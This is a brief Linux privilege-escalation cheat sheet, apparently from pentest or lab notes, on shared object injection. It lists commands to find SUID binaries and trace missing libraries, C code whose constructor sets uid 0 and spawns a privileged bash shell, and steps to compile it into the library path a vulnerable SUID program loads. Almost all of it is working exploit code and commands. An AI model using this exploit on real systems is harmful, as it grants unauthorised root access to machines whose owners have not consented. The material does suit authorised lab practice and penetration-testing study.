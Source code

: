 # Shared Object Injection
#### Detection 
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

#### Exploitation code
```bash
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}
```

#### Exploitation
```bash
# Compile exploit code
gcc -shared -fPIC -o /home/user/.config/libcalc.so exploit.c

# Execute vulnerable SUID file
/usr/local/bin/suid-so
```
